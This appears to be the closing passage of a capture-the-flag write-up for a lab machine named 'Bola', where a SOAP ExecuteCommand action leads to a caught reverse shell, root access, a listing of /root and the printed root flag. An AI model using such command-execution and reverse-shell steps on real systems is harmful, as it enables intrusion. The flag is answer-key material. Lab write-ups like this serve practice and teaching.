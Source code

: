![Burp Suite - SOAP Action ExecuteCommand 2](./assets/screenshots/vulnyx_bola_burpsuite_soap_executecommand_2.png)

```
[CONTINUE]

connect to [192.168.247.128] from (UNKNOWN) [192.168.247.132] 51806
```

```
whoami

root

ls -la /root/

total 44
drwx------  5 root root 4096 Feb  6 06:43 .
drwxr-xr-x 18 root root 4096 Feb  4 04:03 ..
lrwxrwxrwx  1 root root    9 Feb  4 09:28 .bash_history -> /dev/null
-rw-r--r--  1 root root  586 Feb  6 06:43 .bashrc
-rw-------  1 root root   20 Feb  5 10:14 .lesshst
drwxr-xr-x  3 root root 4096 Feb 12  2024 .local
lrwxrwxrwx  1 root root    9 Feb  4 09:28 .mysql_history -> /dev/null
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
drwxr-xr-x  3 root root 4096 Feb  6 06:34 projects
-rw-r--r--  1 root root   33 Feb  4 03:58 root.txt
-rw-r--r--  1 root root   66 Feb  6 06:35 .selected_editor
drwx------  2 root root 4096 Feb 12  2024 .ssh
-rw-r--r--  1 root root  168 Jan 19 14:19 .wget-hsts

cat /root/root.txt

8930fba2c5f4da4e76ceb626f8f5454a 🚩
```

<img src="https://hackmyvm.eu/img/correctflag.png" alt="Machine Hacked!" width="150"/>

---
---
